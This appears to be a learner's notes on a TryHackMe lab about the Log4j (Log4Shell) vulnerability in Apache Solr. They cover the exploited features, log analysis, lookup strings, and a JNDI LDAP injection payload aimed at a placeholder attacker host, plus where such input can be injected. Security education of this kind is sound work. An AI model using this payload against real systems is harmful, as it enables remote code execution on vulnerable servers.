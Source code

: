 # Log4j
https://tryhackme.com/room/solar

## What makes it dangerous?
1. easy to exploit
2. abundant
3. gives remote code execution

## What features are exploited in Log4j?
1. JNDI
2. Support for message lookups

## What are the apps affected so far?
https://github.com/YfryTchsGD/Log4jAttackSurface

## what are more resources to check on the vuln?
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java
https://log4shell.huntress.com/
https://www.youtube.com/watch?v=7qoPDq41xhQ

## investigating the apache solr logs
`/vas/solr/logs/solr.log`


## by viewing the logs:
`2021-12-13 04:01:58.351 INFO  (qtp1083962448-23) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0`
## we notice that there's an HTTP solr call in the path `/admin/cores` and the params are empty braces where user input can be injected and evaluated as code

## Example statments that can be evaluated:
- `${sys:os.name}`
- `${sys:user.name}`
- `${log4j:configParentLocation}`
- `${ENV:PATH}`
- `${ENV:HOSTNAME}`
- `${java:version}`

## the payload however leverages the JNDI (Java Naming & Directory Interface) which can access external resources
`{JNDI:LDAP://<ATTACKERCONTROLLEDHOST>}`

## Question is: what location can we use this payload?
## the answer is: ANYWHERE that's logged by log4j
- Input user/password login forms
- Data entry points in the application
- HTTP Headers like User-Agent, X-Forwarded-For or other headers
